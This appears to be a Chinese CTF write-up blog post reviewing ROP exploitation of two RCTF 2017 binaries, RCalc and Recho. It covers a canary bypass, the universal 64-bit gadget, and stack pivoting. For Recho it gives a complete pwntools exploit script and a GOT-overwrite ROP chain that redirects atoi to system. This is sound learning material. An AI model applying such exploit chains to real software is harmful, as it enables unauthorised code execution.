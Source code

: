 ```yaml
---
title: ROP小结
date: 2017-05-23 12:01:12
tags: Binary
---
```


这次RCTF，对于本以为掌握了的ROP，学到了新的姿势，在这里总结下。

<!--more-->

本文不进行实例调试，用脑子DEBUG......详细文件可以去我的github上找...

# RCalc
首先是计算器这题，作者自己实现了一个canary，首先在每个函数开头通过`sub_400AAB`函数生成了一个随机数，存放到堆中，和栈上面，然后在函数结尾使用`sub_400B92`函数检查这个栈上的随机数和堆中的随机数是否一样。

然后可以去看看`sub_400A06`函数，在存放canary的堆上面有个一个0x100的堆，用于存放需要保存的计算结果，这个结果保存的函数没设定边界值，所以可以覆盖到canary的堆，从而覆盖到canary。

绕过canary后，在`sub_400FA2`函数中，scanf函数存在栈溢出，正常情况下想，之后就是通过ROP很容易就能getshell了。

但是，这里有一个坑点，scanf函数的`%s`不能出现`\x09`, `\x0a`, `\x0b`, `\x0c`, `\x0d`, `\x20`

经过测试，如果输入中出现这几个字符，会被转成`\x00`，或者之后的数据就不会被读入变量中。

这对我来说非常致命，因为got表的地址中都含有`\x20`，还有一些ROP被这些字符限制着，当时还想到了一个别的思路，比如利用`read`函数或者`sub_400c4e`函数，但是没找到控制rdx的ROP所以没法用`read`函数，另外，就算能调用，也没有思路下一步该怎么做，该读到什么位置？然后该怎么通过`read`继续溢出？

而关于`sub_400c4e`函数，虽然函数中含有`\x0c`字符，但是我找到了一个

```
add eax, 0x48002018 ; test eax, eax ; je 0x400803 ; call rax
```

通过这个ROP就能调用`sub_400c4e`了，而`rdx`为最后一次choice输入的值，因为处理这个输入值得时候有个cdqe，虽然如果我输入0x100000005在判断中也是5，通过这个思路，可以让`sub_400c4e`函数中进行溢出，rdi和rsi也都是可控的。

但是在测试中发现，首先我不知道栈地址，所以没法控制rsi，而在`sub_400FA2`函数的ret指令时，rsi正好就是一个栈地址，在当前栈地址的很上面，这种情况下，栈溢出会覆盖掉`sub_400c4e`的局部变量，导致没法成功进行栈溢出。

在比赛结束之后，看来国外的一篇wp后，学到了两个知识点: <http://hama.hatenadiary.jp/entry/2017/05/22/092142>

首先是他们找的ROP：

```
mov rdx, r13 ; mov rsi, r14 ; mov edi, r15d ; call qword [r12+rbx*8];
pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15; ret ;
```

通过这个ROP基本可以调用任意函数了，我找ROP一般是使用默认的命令:

```
$ ROPgadget --binary RCalc
```

但是却没有这个ROP，需要用

```
$ ROPgadget --binary RCalc --depth 11
```

才有第二句ROP，而第一句还是没有。。所以我发现，我在找ROP上还是太菜了....

*UPDATE 20170528*
---------------
经过大佬教育，原来这是64位程序中存在的一个万能ROP，这两句ROP在同一个函数里，而这个函数是gcc编译进程序中去的

-------------------------------

其实，当时我已经基本可以做到调用任意函数了，但是关键点还是第二点。

使用:

```
leave  ; ret ;
```

来修改栈地址，这样一来思路就很清晰了。
找一段可以写的地址，比如bss区域，写入ROP，然后再把rsp修改成该地址，就可以getshell了，同read函数向bss区域写值，然后使用`leave`修改rsp

我还是太菜，从来没想过修改栈地址......

# Recho
本来也是一道简单的栈溢出，但循环的判断:

```
while(read(0, buf, 0x10)>0)
```

要栈溢出首先得先停了这个循环，在shell中可以使用ctrl+d表示EOF，但是脚本咋写？
发现pwntools可以用下面的命令发送EOF

```
s = remote(xxxx,xx)
s.sock.shutdown(socket.SHUT_RW)
```

但是这样我们没法继续输入了，所以我们需要发送一次payload就getflag，我们只能getflag而不能getshell，因为服务器已经关闭了接收我们数据的连接。

这题没有libc，所以写ROP又是一个技术活....

使用下面这个PoC:

```
#!/usr/bin/env python
# coding=utf-8

from pwn import *

context.log_level = "debug"
# context.terminal = ['terminator', '-x', 'bash', '-c']
debug = 1
if debug:
    p = remote("127.0.0.1", 10001)
else:
    p = remote("recho.2017.teamrois.cn", 9527)
e = ELF('Recho')
# gdb.attach(p)
padding = 0x38*'a'          #padding
# write(1, got['read'], 8)
payload = ""
payload += p64(0x4008a3)  # pop rdi;ret
payload += p64(1)         # rdi = 1
payload += p64(0x4008a1)  # pop rsi; pop r15; ret
payload += p64(e.got['read'])  # rsi = got.plt read
payload += p64(0)         # r15 = 0
payload += p64(0x4006fe)  # pop rdx;ret
payload += p64(8)         # rdx = 8
payload += p64(e.symbols['write'])  # call write
# write(1, got['write'], 8)
payload += p64(0x4008a3)  # pop rdi;ret
payload += p64(1)         # rdi = 1
payload += p64(0x4008a1)  # pop rsi; pop r15; ret
payload += p64(e.got['atoi'])  # rsi = got.plt atoi
payload += p64(0)         # r15 = 0
payload += p64(0x4006fe)  # pop rdx;ret
payload += p64(8)         # rdx = 8
payload += p64(e.symbols['write'])  # call write


p.readuntil("server!\n")
p.sendline('1000')
p.sendline(padding + payload)
p.recv()
p.sock.shutdown(1)
print u64(p.recv(8)) - u64(p.recv(8))
p.interactive()
```

经过远程和本地测试对比，发现远程的libc应该和我本地的一样

然后使用本地的libc写payload就好了。。

思路是改写got表中随便一个函数的地址改成system就好了，比如我修改的是atoi函数，然后找binary中的ROP，找到下面三个：

```
pop rdi; ret;
pop rax; ret;
add [rdi], al; ret;
```

通过这三个，我们就能修改偏移了，比如:

```
payload += p64(0x4008a3)+p64(0x601040)    # pop rdi; ret;   rdi = 0x601040; atoi
payload += p64(0x4006fc)+p64(0x10) + p64(0x40070d)  # pop rax; ret;   rax = 0x10; add [rdi], al; ret;

payload += p64(0x4008a3)+p64(0x601041)    # pop rdi; ret;   rdi = 0x601041;
payload += p64(0x4006fc)+p64(229) + p64(0x40070d)   # pop rax; ret;   rax=0xe5;   add [rdi], al; ret;
```

这相当于got表中atoi函数的地址加上0xe510

同样再使用上面的ROP往bss中写入`cat flag`，最后输出的指令是`system('cat flag')`

# 总结
本以为栈溢出都会了，其实还是太菜.....
